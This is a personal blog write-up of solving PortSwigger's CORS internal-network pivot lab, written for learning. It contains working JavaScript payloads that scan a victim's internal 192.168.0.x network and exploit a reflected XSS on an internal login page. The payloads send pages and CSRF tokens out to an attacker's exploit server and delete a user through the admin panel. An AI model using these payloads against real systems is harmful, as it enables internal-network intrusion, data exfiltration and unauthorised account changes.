 ```yaml
---
layout: post
title:  "CORS vulnerability with internal network pivot attack"
date:   2020-03-10 16:52:46 +0100
categories: writeup portswigger
---
```

# *Introduction*
This writup is about how i solved port swigger's expert lab ["CORS vulnerability with internal network pivot attack"](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack). This is the first expert level lab i solved and it required me multiple steps to exploit the vulnerability.

The lab description says:
>>This website has an insecure CORS configuration in that it trusts all internal network origins.
>>To help solve this lab you can use the Burp Collaborator client or use the access logs provided on the exploit server.
>>This lab requires multiple steps to complete. To solve the lab, craft some JavaScript to locate an endpoint on the local network (192.168.0.0/24, port 8080) that you can then use to identify and create a CORS-based attack to delete a user. The lab is solved when you delete user Carlos.

This lab, like many others, hosts also an exploit server where we can create a custom response that will be delivered to the victim. The exploit server features an access log page where we can check all the requests that were made to it. This is very usefull for out-of-band exfiltration attacks like this one.
Here is what the [exploit server page](/assets/exploit-server.png) and the [access log](/assets/access_log.png) pages look like in case you have never seen them. As we can see the exploit server has the `Deliver exploit to victim` functionality, that's what we will use to deliver the exploits.

Also, this lab is based on a CORS misconfiguration. You can read more about it [here](https://portswigger.net/web-security/cors). Personally, to make javascript perform external requests, I used the [fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) and i would suggest you to give it a try if you never heard of it. 

<br/>
# *First step: scanning the internal network*
As suggested by the lab description, the first thing to do is scan the victim's internal network. I did this by deploing the following script (thought the exploit server body):
```javascript
<script>
var oobserver="your-server-URL"; //your exploit server url goes here
var found=false;
scan();
async function scan(){
 for(var i=1;i<256 && !found;i++){
 fetch(oobserver+"?testing="+i);
 await fetch("http://192.168.0."+i+":8080").then(res=>res.text()).then(t=>{
  fetch(oobserver+"?found="+i+"&res="+encodeURI(t));
  console.log(i);
  found=true;
  }).catch(err=>(console.log("Error")));
 }
}
</script>
```
This code will make a request to all ip's in the adress range `192.168.0.1` to `192.168.0.255` on port `8080` and log this process to our exploit server. It stops when it requests something that exists and logs the requested page to our server. <br/>*Note that the fetch api makes no differences between a CORS error and a network error, so this scan is only possible becouse the internal network allows requests from any origin.* 

Once we have deploied this code to the victim, [this](/assets/scanning_results.png) is what we find if we check our logs:
![Logs after scanning](/assets/scanning_results.png)

As we can see we have located the internal server (`192.168.0.236:8080` in this case). If we copy-paste the page passed through the res parameter to our logs in a URL Decoder we get this:
```html
<!DOCTYPE html>
<html>
 <head>
   <link href="/resources/css/labs.css" rel="stylesheet">
   <title>CORS vulnerability with internal network pivot attack</title>
 </head>
 <body>
   <div>
       <script src="/resources/js/labHeader.js"></script>
   <div id="labHeader">
        ByzfRyDABDxPnTBh3§LIGHTxHkQmPFUnkvfVANl
   </div>
   <section class="maincontainer is-page">
    <div class="container">
     <h1>Login</h1>
     <section>
      <form class="login-form" method="POST">
         <input required type="hidden" name="csrf" value="wTzcJ8v3oEBs97IqJIPINAf9nOOWFtnM">
         <label>Username</label>
         <input required type="username" name="username">
         <label>Password</label>
         <input required type="password" name="password">
         <button class="button" type="submit"> Log in </button>
      </form>
     </section>
     </div>
    </section>
   </div>
  </body>
</html>
```
As we can see the internal server hostes a login page that also exposes some csrf token. I actually find a way to retrive the token on this page but it wasn't needed for the lab to be exploited so i won't show it here.<br/>
*Note: One important thing that I didn't notice at first is that our request to `192.168.0.236:8080` was redirected to `192.168.0.236:8080/login`. This is important because in the next step we need to find a vulnerability on this endpoint.*

<br/>
# *Second step: find a vulnerability in the internal server*
After i realized the internal request was redirected as said above, i restarted to try all my exploit ideas. The first one was actually the right one. I tried to pass a custom username and password to the request. If they are reflected in the response, this will probably lead to XSS.
```javascript
<script>
var serverip="the-internal-server-ip" //Use the server ip found in Step 1
var oobserver ="exploit-server-URL"; //Use your exploit server URL
fetch("http://"+serverip+":8080/login?username=userxss&password=passxss").then(res=>res.text()).then(res=>
fetch(oobserver+"?res="+encodeURI(res)));
</script>
```
If we deliver this, as previously, we get a slightly different response as before:
```html
<!DOCTYPE html>
<html>
 <head>
   <link href="/resources/css/labs.css" rel="stylesheet">
    <title>CORS vulnerability with internal network pivot attack</title>
 </head>
 <body>
    <div>
       <script src="/resources/js/labHeader.js"></script>
       <div id="labHeader">
           NaKpqLuewmmGSnnf3§LIGHTXbhOORABJiwyfTVk
        </div>
        <section class="maincontainer is-page">
          <div class="container">
            <h1>Login</h1>
              <section>
                <form class="login-form" method="POST">
                  <input required type="hidden" name="csrf" value="jMoaAt9acuEn8IN2aL4RX6merlsf5cha">
                   <label>Username</label>
                   <input required type="username" name="username" value="userxss">
                   <label>Password</label>
                   <input required type="password" name="password">
                   <button class="button" type="submit"> Log in </button>
                 </form>
              </section>
          </div>
       </section>
    </div>
  </body>
</html>
```
As we expected the username is reflected in the response(line 20). <br/>What this means is that we can redirect the victim to his internal login page and execute scripts from there, probably bypassing some CORS directives. 

# *Third step: retrieving the Admin Panel*
At this point, i had some trouble. I was trying to fetch the publicly avaiable lab site, as i tought i would get a different version of it (with admin privileges). Anyway this wasn't the case. The admin page was located on the local server at `/admin`. Once i realized this, after multiple tries, it was easy to Inject some javscript in the local server (Second step) to fetch for us the admin page:
```javascript
<script>
var serverip ="internal-server-ip"  //Use server ip found in step 1
var oobserver ="your-exploit-server-URL"; //Use your exploit server URL
var exploit = "\"><script>fetch('/admin',{credentials: 'include'}).then(res=>res.text()).then(res=>fetch(`"+oobserver+"?res=${encodeURI(res)}`));</scr"+"ipt><\"";
exploit= encodeURI(exploit);
window.location="http://"+serverip+":8080/login?username="+exploit+"&password=pass";
</script>
```
The hard part here was to pay attention to all double quotation mark that needed to be in the exploit, some are escaped and for other I used `'` instead. Also I made use of javascript's [string templates](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals) to construct string from within the injected script.
<br/>*Note that the injected string has to start with `">` to escape the attribute value in witch it is injected. Also the closing script tag is constucted using two strings because of [a js known problem](https://stackoverflow.com/questions/1659749/script-tag-in-javascript-string).*

Anyway, by deploying this code to the victim as seen before, we get a request in our logs, containing the following page:
```html
<!DOCTYPE html>
<html>
    <head>
        <link href="/resources/css/labs.css" rel="stylesheet">
        <title>CORS vulnerability with internal network pivot attack</title>
    </head>
    <body>
        <div theme="ecommerce">
            <script src="/resources/js/labHeader.js"></script>
            <div id="labHeader">
                eHPKrwPVLTmsxqOI3§LIGHTTenYEaocXAMpkyHl
            </div>
            <section class="maincontainer">
                <div class="container is-page">
                    <form class="login-form" action="/admin/delete" method="POST">
                        <input required type="hidden" name="csrf" value="gFgYQSC4C1lTjWdzHSFPaEtgT6mZcpGB">
                        <label>Username</label>
                        <input required type="text" name="username">
                        <button class="button" type="submit"> Delete user </button>
                    </form>
                </div>
            </section>
        </div>
    </body>
</html>

```
**It's the ADMIN Page!!**

<br/>
# *Last Step: delete the user 'carlos'*
Now, all we are left to to, is to make our victim perform a POST(or GET) request to `/admin/delete` from his internal server containing as data the username 'carlos' ant the csrf token retrieved on `/admin`
I came up with this working exploit:
```javascript
<script>
var serverip= "internal-server-ip" //Use ip found in step 1
var exploit = "\"><script>fetch('/admin',{credentials: 'include'}).then(res=>res.text()).then(res=>{var csrf=res.match(/name=\"csrf\" value=\"(.{32})\"/)[1];var amp='\\x26';fetch(`/admin/delete?username=carlos${amp}csrf=${encodeURI(csrf)}`);});</scr"+"ipt><\"";
exploit= encodeURI(exploit);
window.location="http://"+serverip+":8080/login?username="+exploit+"&password=pass";
</script>
```
This code retrieves the csrf token from the `/admin` endpoint by using a ReGex, then it performs a request to `/admin/delete` as described above.Here the one thing that gave me problems, was the `&` sign. Transmitting it was a problem because it was interpreted as a parameter delimiter in the first request (the same that injected the script). At the end i came up with the workaround you see above.

*After delivering this code to the victim The magic popup come up!*

![Solved Lab](/assets/lab_solved.png)

<br/>
# *The End*
As a conclution, i'm new to web vulnerability and it was a great journey to complete this lab. I'm currently learning all this stuff from [port swigger](https://portswigger.net/), so go check them out! Hope you enjoyed reading ;D

